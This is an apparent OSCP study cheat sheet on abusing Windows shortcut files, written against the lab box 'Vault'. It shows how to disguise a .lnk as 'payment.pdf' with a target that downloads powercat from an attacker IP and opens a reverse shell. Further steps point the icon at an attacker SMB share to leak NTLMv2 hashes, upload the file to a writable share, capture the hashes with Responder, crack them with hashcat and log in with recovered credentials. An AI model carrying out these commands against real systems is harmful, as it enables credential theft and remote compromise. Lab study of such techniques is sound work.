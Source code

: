 # Evil Windows Library File
- Tool: https://github.com/Greenwolf/ntlm_theft
- google search: generate force NTLMv2 Authentication files site:github.com
- This is allowed on OSCP as it is NOT automatic exploitation
- if you see a SMB share with writable permissions, upload an EVIL lnk file
- Use responder to catch NTLMv2 creds
- Box: ***Vault*** - Offsec PG Practice
- Demo during Hacktrack with Mentors, Assembling the pieces 3.
- reference PEN200 12.3.1 https://portal.offsec.com/courses/pen-200-44065/learning/client-side-attacks-48976/abusing-windows-library-files-49009/obtaining-code-execution-via-windows-library-files-48979
- https://field-manual.brunorochamoura.com/manual/exploitation/client-side-exploitation/evil-windows-library-file/
---
## Forced Authentication & .lnk File Abuse
Forced Authentication: 
	- Coerce Authentication via abusing legitimate file functions  
LNK icon smuggling:   
	- Coerce authenicaion via ICON paths
	- Execute malicious code via legitimate functions
	- WE can replace lnk files to point to a remote file
	- we can also make lnk files use binary, to exeucte some command we want
	- If you find a share we have write access to, upload our evil binary
	- Mount share  smbclient \\\\IP\ShareName  

---

### Craft EVIL .lnk File
- On windows desktop, right-click -> new shortcut
- Location:  %WINDIR%  -> next
- name: "payment.pdf"  -> finish
- WE will change icon to look like PDF.
- If target doesnt have view option, "show file extensions" on, our LNK will look like a .pdf file
- Right-click our EVIL lnk -> properties ->
- target:
```powershell
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.158:8000/powercat.ps1');powercat -c 192.168.45.158 -p 4444 -e powershell"`
```
- OR 
target: `%ComSpec% /c echo pwned >%UserProfile\desktop\hacked.txt`
- %comspec% == cmd.exe
- change icon -> Look for icons in this file -> \\KALIIP\test.ico
- hit OK, there will be an error..
- It's possible on some Windwos Versions, that when user RENDERS icon, explorer.exe will try to fetch the icon.. no user-interaction required.
- This provides us with a connection from the target user/computer
- If we are running responder/relayx, we will have a hash or can relay for authentication
- Otherwise reverseshell maybe
- google search: generate force NTLMv2 Authentication files site:github.com
---
### Identify SMB Write Access
```
# check for guest access 
nxc smb 192.168.205.172 -u "guest" -p "" --shares
SMB         192.168.205.172 445    DC               [*] Enumerated shares
SMB         192.168.205.172 445    DC               Share           Permissions     Remark
SMB         192.168.205.172 445    DC               -----           -----------     ------
SMB         192.168.205.172 445    DC               DocumentsShare  READ,WRITE      
```
- Here we see DocumentsShare is mis-permissioned, and we, as GUEST, have write access.

---

### Listen With Responder
- responder is only in analyze mode, no poisoning or spoofing is being used
`sudo responder -I tun0 -A`
- Relay if you can't crack : [Impacket-ntlmrelayX](/03-Active-Directory/NTLMv2_Credential_Theft.md)

---

### Upload Evil LNK
```
smbclient \\\\192.168.165.172\\DocumentsShare -c 'put payment.pdf.lnk'
smbclient \\\\192.168.165.172\\DocumentsShare	# Alternate syntax with two commands
put payment.pdf.lnk
```
- Check responder, we should see NTLMv2 hit
- Once the user/scheduled task/automation touches/view or file, we should get a hash in responder

---

### Crack
- Hash should be NTLMv2, and be autodetected by hashcat. 
- If crack not possibly, we can also relay to another host.
- `hashcat hash /usr/share/wordlists/rockyou.txt`
- `hashcat -m 5600 paul.hash /usr/share/wordlists/rockyou.txt --force`

[Impacket-ntlmrelayX](/03-Active-Directory/NTLMv2_Credential_Theft.md)

---

### Use your New Found Power
Now that we have a password, we should re-enumerate shares
```
nxc smb 192.168.205.172 -u "anirudh" -p "SecureHM" --shares
nxc winrm 192.168.205.172 -u "anirudh" -p "SecureHM" --shares
evil-winrm -i 192.168.205.172 -u "anirudh" -p "SecureHM" 
```

### NTLM_THEFT
```bash
sudo responde
python3 /opt/ntlm_theft/ntlm_theft.py -g modern -s 192.168.45.158 -f ticket
```
